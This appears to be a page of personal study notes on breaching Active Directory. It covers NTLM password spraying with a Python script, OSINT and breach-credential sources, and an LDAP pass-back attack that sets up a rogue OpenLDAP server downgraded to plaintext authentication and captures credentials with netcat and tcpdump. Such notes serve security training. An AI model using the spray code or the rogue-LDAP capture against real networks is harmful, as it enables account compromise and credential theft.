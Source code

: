 ```yaml
---
permalink: /breaching-active-directory.html
title: Breaching Active Directory
description: 
---
```

<head>
<link href="css/cyber.css" rel="stylesheet">
</head>

[Toolkit Homepage](../README.md)

### Active Directory Breaching

* Techniques for breaching AD
* NTLM Authenticated Services
* LDAP Bind Credentials
* Authentication Relays
* Microsoft Deployment Toolkit
* Configuration Files
* Phishing
* OSINT services for finding AD credentials
  * <https://stackoverflow.com/>
  * <https://github.com/>
  * Past breach credentials:
    * <https://haveibeenpwned.com/>
    * <https://www.dehashed.com/>

* NTLM and NetNTLM
  * HetHTLM services exposed to internet:
    * On-premises Exchange/Outlook OWA
    * RDP
    * AD integrated VPN endpoints
    * Internet facing web apps
* Password spray script:

```python
def password_spray(self, password, url):
    print ("[*] Starting passwords spray attack using the following password: " + password)
    #Reset valid credential counter
    count = 0
    #Iterate through all of the possible usernames
    for user in self.users:
        #Make a request to the website and attempt Windows Authentication
        response = requests.get(url, auth=HttpNtlmAuth(self.fqdn + "\\" + user, password))
        #Read status code of response to determine if authentication was successful
        if (response.status_code == self.HTTP_AUTH_SUCCEED_CODE):
            print ("[+] Valid credential pair found! Username: " + user + " Password: " + password)
            count += 1
            continue
        if (self.verbose):
            if (response.status_code == self.HTTP_AUTH_FAILED_CODE):
                print ("[-] Failed login with Username: " + user)
    print ("[*] Password spray attack completed, " + str(count) + " valid credential pairs found")
```

* LDAP: application directly verifies user's credentials via a pair of AD credentials
  * Attempt to recover the AD credentials used by the service to gain authenticated access to AD
  * Common LDAP services:
    * Gitlab
    * Jenkins
    * Custom-developed web applications
    * Printers
    * VPNs
* LDAP Pass-back Attacks
  * Redirecting the LDAP server request in order to intercept the LDAP credentials
  * Use netcat listener while sending LDAP request: `nc -lvp 389`
  * Hosting a Rogue LDAP Server
    * Install OpenLDAP: `sudo apt-get update && sudo apt-get -y install slapd ldap-utils && sudo systemctl enable slapd`
    * Configure server: `sudo dpkg-reconfigure -p low slapd`
    * Create olcSaslSecProps.ldif file with:

```bash 
    #olcSaslSecProps.ldif
    dn: cn=config
    replace: olcSaslSecProps
    olcSaslSecProps: noanonymous,minssf=0,passcred
```

* Patch LDAP server: `sudo ldapmodify -Y EXTERNAL -H ldapi:// -f ./olcSaslSecProps.ldif && sudo service slapd restart`
* Test if configuration has been applied: `ldapsearch -H ldap:// -x -LLL -s base -b "" supportedSASLMechanisms`
* Run tcpdump to grab credentials: `sudo tcpdump -SX -i breachad tcp port 389`
* Run the test LDAP credentials in the GUI
